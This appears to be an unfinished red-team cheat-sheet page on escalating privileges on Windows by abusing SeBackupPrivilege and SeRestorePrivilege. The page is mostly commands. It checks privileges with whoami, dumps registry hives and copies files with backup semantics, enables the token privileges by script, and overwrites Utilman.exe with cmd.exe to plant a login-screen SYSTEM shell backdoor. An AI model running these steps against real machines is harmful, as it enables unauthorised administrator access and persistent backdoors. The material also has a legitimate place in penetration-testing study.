 # Living off the Land

## 01 - Detect

Look for `SeBackupPrivilege` and `SeRestorePrivilege` enabled in the current local username account.

```
C:\> whoami /priv
```

## 02 - Exploit

TODO: Fill this info

```
C:\> reg save

C:\> robocopy /b
```

```
PS C:\> .\Set-TokenPrivilege.ps1 -privilege SeBackupPrivilege <pid>
```

```
PS C:\> Import-Module .\EnableSeRestorePrivilege.ps1

PS C:\> Enable-SeRestorePrivilege
```


```
PS C:\> copy C:\Windows\System32\Utilman.exe C:\Windows\System32\Utilman.bkp

PS C:\> copy C:\Windows\System32\cmd.exe C:\Windows\System32\Utilman.exe
```

---
## References

### Github

- [gtworek: Priv2Admin](https://github.com/gtworek/Priv2Admin)

- [gtworek: EnableSeRestorePrivilege](https://github.com/gtworek/PSBits/blob/master/Misc/EnableSeRestorePrivilege.ps1)

### Hacktricks

- [Hacktricks: Abusing Tokens](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens)

### Internal All The Things

- [Internal All The Things: Windows Privilege Escalation](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/)

### Kojiroh

- [Kojiroh: How to Enable SeBackupPrivilege and SeRestorePrivilege](https://kojiroh.wordpress.com/2020/12/15/how-to-enable-sebackupprivilege-and-serestoreprivilege/)

### Lee Holmes

- [Lee Holmes: Adjusting Token Privileges in PowerShell](https://www.leeholmes.com/adjusting-token-privileges-in-powershell/)